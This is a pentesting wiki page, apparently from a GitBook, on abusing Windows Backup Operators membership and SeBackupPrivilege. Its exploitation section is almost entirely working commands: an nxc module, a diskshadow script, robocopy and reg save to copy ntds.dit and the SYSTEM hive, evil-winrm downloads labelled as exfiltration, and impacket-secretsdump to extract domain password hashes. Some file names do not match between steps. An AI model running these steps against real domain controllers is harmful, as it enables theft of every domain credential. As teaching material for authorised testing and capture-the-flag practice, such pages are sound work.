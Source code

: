 # Backup Operators

## Information

Backup Operators can **back up and restore all files on a computer**, including OS files, regardless of the permissions that protect those files. Because members of this group can replace files on DCs, they're considered **service administrators**.

> Well known SID/RID: `S-1-5-32-551`.

<table><thead><tr><th width="205">Privilege</th><th>Description</th></tr></thead><tbody><tr><td><a href="https://learn.microsoft.com/en-us/windows/device-security/security-policy-settings/back-up-files-and-directories">SeBackupPrivilege</a></td><td>Allows us to create backups of any files, whilst not restoring their permissions, which equals to <strong>arbitrary read access</strong>.</td></tr><tr><td><a href="https://learn.microsoft.com/en-us/windows/device-security/security-policy-settings/restore-files-and-directories">SeRestorePrivilege</a></td><td>Allows us to <strong>overwrite legitimate executable files</strong> with versions that include malicious software used for <strong>privilege escalation</strong>.</td></tr></tbody></table>

## Exploitation

{% hint style="warning" %}
Check [`SeBackup`](../privileges/sebackup.md).
{% endhint %}

{% tabs %}
{% tab title="nxc" %}
If the controlled user has the `SeBackupPrivilege`, it can dump `SAM`, `SYSTEM`, `SECURITY` and therefore the `NTDS.dit` on the target system. No admin privs needed!

```bash
nxc smb <target-ip> -u <user> -p <pass> -M backup_operator
```
{% endtab %}

{% tab title="Diskshadow" %}
Create a [**diskshadow**](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/diskshadow) script from the attack host to expose the `c:` drive:

```bash
$ cat diskshadow_script
set context persistent nowriters
add volume c: alias random
create
expose %random% z:

# Convert file into a Windows-compatible format
$ flip -m diskshadow_script
$ sudo unix2dos diskshadow_script # deprecated
```

Transfer the script to the target host and execute the following steps. In the example below, `evil-winrm` is used to transfer the files between the attack and the target host, via its `upload` and `download` methods:

```powershell
# Move within a writeable directory
cd c:\windows\temp
# Upload the diskshadow script
upload diskshadow_script
# Expose the shadow copy
diskshadow /s diskshadow_script
# Copy the ntds.dit database
robocopy /b z:\windows\ntds . ntds.dit
# Copy the system.hive file
reg save hklm\system c:\windows\temp\system.hive
# Download both files
download ntds.dit
download system.hive
```

Dump the `ntds.dit` from the attack host:

{% code overflow="wrap" %}
```bash
impacket-secretsdump -ntds ntds.dit -system system.hive LOCAL | grep Administrator
```
{% endcode %}

For an example of the above method check [here](../../../../../../boxes/hard/blackfield.md#exfiltrating-victory).
{% endtab %}

{% tab title="DLLs" %}
Download the `SeBackupPrivilegeUtils.dll` and `SeBackupPrivilegeCmdLets.dll` from [here](https://github.com/giuliano108/SeBackupPrivilege) on the attack host and transfer them to the target along with the diskshadow script found on the previous tab (on the example below `evil-winrm` is used):

```powershell
# Move to a writeable directory
cd C:\Temp

# Upload files
upload diskshadow_script
upload SeBackupPrivilegeUtils.dll
upload SeBackupPrivilegeCmdLets.dll

# Import DLLs into memory
Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll

# Expose the shadow copy
diskshadow /s raj.dsh
```

Unlike [Method 1](backup-operators.md#method-1), the `Copy-FileSebackupPrivilege` cmdlet (part of the DLL files) is used to copy the `ntds.dit` file from the `z:` volume to the `Temp` directory:

```powershell
# Copy ntds.dit to Temp
Copy-FileSebackupPrivilege z:\Windows\NTDS\ntds.dit C:\Temp\ntds.dit

# Copy system.hive
reg save hklm\system c:\Temp\system

# Exfiltrate files
download ntds.dit
download system
```

Dump the `ntds.dit` from the attack host:

{% code overflow="wrap" %}
```bash
impacket-secretsdump -ntds ntds.dit -system system.hive LOCAL
```
{% endcode %}
{% endtab %}
{% endtabs %}
